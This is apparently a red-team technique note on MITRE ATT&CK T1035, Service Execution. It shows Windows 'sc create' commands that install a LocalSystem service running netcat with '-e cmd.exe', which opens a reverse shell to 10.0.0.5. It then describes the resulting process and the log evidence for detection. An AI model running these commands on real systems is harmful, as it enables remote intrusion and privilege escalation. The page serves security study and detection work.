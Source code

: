 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with an nc reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The reverse shell lives under services.exe:

![](../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../.gitbook/assets/services-logs.png)

![](../.gitbook/assets/services-shell.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}


